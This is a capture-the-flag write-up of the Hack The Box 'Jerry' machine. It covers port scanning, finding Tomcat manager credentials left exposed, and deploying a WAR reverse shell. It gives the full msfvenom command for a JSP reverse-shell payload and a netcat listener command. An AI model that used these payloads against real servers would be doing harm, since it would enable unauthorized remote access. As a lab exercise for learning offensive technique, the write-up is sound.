










# Hack the box - Jerry


&nbsp;<span style="color:#b5e853; font-weight: bold">OS:  </span><b>Windows</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">IP: </span><b>10.10.10.95</b>

&nbsp;<span style="color:#b5e853; font-weight: bold">Difficulity: </span><b>Easy</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Release: </span><b>2018 Jun 30</b>

___

## Port scanning
```
nmap -sC -sV -T4 -oA nmap 10.10.10.95
```


There is only port 8080 open which indicates Apache Tomcat server.

___

## Web fingerprinting

By visiting web page we could notice Apache Tomcat server:



Manager app have admin access:



If we press "Cancel", web sever reddirects us to http://10.10.10.95:8080/manager/html page, that have credentials leaked:



After we successfuly login to admin page, we could identify Deploy location that is iteresting place to inject reverse shell:



## Getting reverse shell

From quick google search we could identify that Apache Tomacat uses java tech stack that supports WAR files:



msfvenom is convenient tool to generate reverse shell files:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.xx.xx LPORT=4444 -f war > reverse_shell.war
```



After we use netcat to listen on port 4444 and upload generated shell:

```
nc -lvnp 4444
```





As we can see, there is no need for privelege escalation, so we can capture flags ASAP:

